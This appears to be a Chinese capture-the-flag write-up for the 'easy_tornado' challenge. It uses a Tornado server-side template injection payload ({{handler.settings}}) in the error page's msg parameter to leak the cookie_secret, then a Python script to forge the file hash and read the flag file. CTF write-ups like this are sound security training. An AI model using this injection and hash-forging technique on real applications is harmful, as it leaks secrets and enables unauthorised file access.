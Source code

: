### [护网杯 2018]easy_tornado

----

```python
/flag.txt
flag in /fllllllllllllag

/welcome.txt
render

/hints.txt
md5(cookie_secret+md5(filename))
```

我们已经有了整体的思路，现在要做的就是寻找`cookie_secret`，同时我贴一下url格式：

```
http://43d5032b-3241-4fa1-b247-3a2f8bf407bb.node5.buuoj.cn:81/file?filename=/flag.txt&filehash=32f696e969936edbd879e9a7862f4b42
```

我们可以修改任意值，发现报错

```
http://43d5032b-3241-4fa1-b247-3a2f8bf407bb.node5.buuoj.cn:81/error?msg=Error
```

根据题目我们一开始可以判断应该是模板注入类型题目：

之前的注入手段不行，我们这里采用tornado中特殊参数去查看cookie_secert

`{{handler.application.settings}}`或者`{{handler.settings}}`

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '8e0ec61c-e16c-4ed2-a4ca-f51cd96f3efe'}
```



编写脚本得到hash值：

```python
import hashlib
def md5_encode(data):
    md5_hash = hashlib.md5()
    md5_hash.update(data.encode('utf-8'))
    md5_digest = md5_hash.hexdigest()
    return md5_digest

#md5(cookie_secret+md5(filename))
cookie_secert = "8e0ec61c-e16c-4ed2-a4ca-f51cd96f3efe"
res = md5_encode(cookie_secert+md5_encode("/fllllllllllllag"))
print(res)
#f7e4762bc050ad45ad778474c05eb310
```

最后访问：

```
http://43d5032b-3241-4fa1-b247-3a2f8bf407bb.node5.buuoj.cn:81/file?filename=/fllllllllllllag&filehash=f7e4762bc050ad45ad778474c05eb310
```

得到flag!!!